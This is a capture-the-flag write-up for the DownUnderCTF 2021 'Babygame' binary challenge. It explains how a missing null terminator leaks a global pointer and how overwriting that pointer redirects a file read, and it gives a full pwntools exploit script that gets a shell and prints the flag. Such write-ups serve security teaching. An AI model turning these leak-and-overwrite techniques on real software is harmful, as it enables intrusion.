 # Babygame

![](/2021/DownUnderCTF2021/Babygame/Images/1.png)

Check the ELF

![](/2021/DownUnderCTF2021/Babygame/Images/2.png)

Reverse with IDA

![](/2021/DownUnderCTF2021/Babygame/Images/3.png)

The program first asks us to enter the NAME array, and then calls an infinite loop. Read input, `1` `2` `1337` and call `set_username()`, `print_username()`, `game()` corresponding.

Look `at game()` function

![](/2021/DownUnderCTF2021/Babygame/Images/4.png)

The game function call fopen() with filename is the string RANDBUF point to. And read 4 byte. We need to enter correct 4 byte to get a shell.

We cannot bruteforce because RANDBUF is point to “/dev/urandom” string. So the program with open the /dev/urandom file, so that the value will is different each run.

Look at function `set_username()`

![](/2021/DownUnderCTF2021/Babygame/Images/5.png)

Function call fread with the strlen(NAME)

Fucntion `print_username()`

![](/2021/DownUnderCTF2021/Babygame/Images/6.png)

Just puts the Name

## So what is the bug?

![](/2021/DownUnderCTF2021/Babygame/Images/7.png)

The NAME and RANDBUF variable are global variable, and it located on bss setion. NAME array is 32 characters and the pointer randbuf right after it. So look again to the code. The fread function at main will allow us to input maximum 32 character, and it NOT push the null byte in the end. So it make the randbuf pointer leakable. And after that, the print_username will give us the value of randbuf, which is a pointer to string ‘/dev/urandom’ in ELF file. And also the Edit username allow us to change that pointer (because strlen(NAME) will stop with null byte, so the size we fread can be 32 + size(RANDBUF) ).

![](/2021/DownUnderCTF2021/Babygame/Images/8.png)

The bss if we enter full 32 charracter to NAME, it will concat the RANDBUF value with it. You can see the name vallue point to “/dev/urandom” string. After it, if you puts(NAME) the puts will put until read the NULL charracter (\x00), and the first NULL charracter is 2 highest byte in RANDBUF. So you can leak the value of RANDBUF and also change it because the strlen() will have same implementation with puts.

## Oke so what we have and what we can do?

  - We can leak the value of RANDBUF, with point to the string “/dev/urandom” in data section of ELF -> We can leak PIE base of program.

  - We can also overwrite it due the edit username function. To change it to point back to the address of NAME array, can do this because we have PIE leak before, we can make the game function open what file we want to open, not /dev/urandom.

  - Our target is to input exactly 4 byte when we call game() function, we cannot do that becasuse ‘/dev/urandom’ is random. We need to point it to another file that we can know or predict the first 4 byte, or some static file we can bruteforce.

I decide to point to the pwn file, which is the challenge’s ELF file running on server. I know it has the name “pwn” due to 3 chall I solved before.

![](/2021/DownUnderCTF2021/Babygame/Images/9.png)

4 first byte of babygame is 7f 45 4c  46, so value we need input is 0x464c457f

## Finally exploit

  - First, we push 32 charracter to NAME when fread first call in main
  
  - Seccond, we use print_username to leak value of RANDBUF, calculate PIE base and address of NAME array

  - Third, we use edit_username to puts “pwn” + “\x00” * 29 + p64(NAME address) and overwrite the RANDBUF to NAME

  - Fourth, we call game and input 0x464c457f to get a shell

File [solve.py](/2021/DownUnderCTF2021/Babygame/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31907)
#s = process('./babygame')
#raw_input('DEBUG')
s.sendlineafter(b'name?\n', b'A' * 31)
s.sendlineafter(b'> ', b'2')
print(s.recvline())
dev_urandom_leak = int.from_bytes(s.recvline().strip(), byteorder = 'little', signed = False)
name = dev_urandom_leak - 0x2024 + 0x40A0
print(hex(dev_urandom_leak))
print(hex(name))
s.sendlineafter(b'> ', b'1')
print(p64(name)[:-2])
s.sendafter(b'to?\n', b'pwn' + p32(0) + b'A' * 25 + p64(name)[:-2])
#s.sendafter(b'to?\n', b'babygame' + p32(0) + b'A' * 20 + p64(dev_stdin)[:-2])
s.sendlineafter(b'> ', b'1337')
s.sendlineafter(b'guess: ', b'1179403647')
s.interactive()
```

![](/2021/DownUnderCTF2021/Babygame/Images/10.png)

`flag: DUCTF{whats_in_a_name?_5aacfc58}`

